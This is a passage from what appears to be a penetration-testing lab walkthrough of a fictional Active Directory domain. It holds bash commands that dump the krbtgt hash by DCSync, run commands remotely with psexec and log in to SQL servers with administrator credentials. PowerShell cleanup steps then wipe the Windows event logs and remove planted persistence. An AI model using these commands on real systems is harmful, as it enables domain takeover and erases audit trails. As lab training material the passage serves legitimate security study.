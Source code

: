 ```bash
    
    # DCSync Test
    secretsdump.py -just-dc-user krbtgt "$domain/administrator:pass@$dc" > /dev/null 2>&1
    if [ $? -eq 0 ]; then
        echo "✅ DCSync successful for $domain"
    else
        echo "❌ DCSync failed for $domain"
    fi
    
    # PSExec Test
    psexec.py "$domain/administrator:pass@$dc" 'cmd /c echo Domain Access Confirmed' > /dev/null 2>&1
    if [ $? -eq 0 ]; then
        echo "✅ Remote execution successful on $dc"
    else
        echo "❌ Remote execution failed on $dc"
    fi
done

# Test SQL Server Access
for sql in "${sql_servers[@]}"; do
    echo "Testing SQL Server $sql..."
    impacket-mssqlclient -windows-auth "north.sevenkingdoms.local/administrator:pass@$sql" -q "SELECT @@VERSION" > /dev/null 2>&1
    if [ $? -eq 0 ]; then
        echo "✅ SQL Server access confirmed on $sql"
    else
        echo "❌ SQL Server access failed on $sql"
    fi
done

echo "=== Access Verification Complete ==="
```

### 10.2 Cleanup Options (Optional for Lab)

#### Minimal Cleanup (Maintaining Access)
```powershell
# Event Log-Einträge für spezifische Aktivitäten löschen
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4624,4648,4672} | Where-Object {$_.TimeCreated -gt (Get-Date).AddHours(-24)} | Clear-WinEvent

# Temporäre Dateien entfernen
Remove-Item C:\Windows\Temp\*.ps1 -Force
Remove-Item C:\Windows\Temp\*.exe -Force
Remove-Item C:\Windows\Temp\*.dll -Force
```

#### Complete Cleanup (Removing All Traces)
```powershell
# Alle Persistence-Mechanismen entfernen
Remove-Service -Name "Windows Security Center" -Force
Remove-GPO -Name "Security Update Service" -Domain north.sevenkingdoms.local
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SecurityUpdate"

# Eventlog-Reset
wevtutil cl Security
wevtutil cl System
wevtutil cl Application
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

---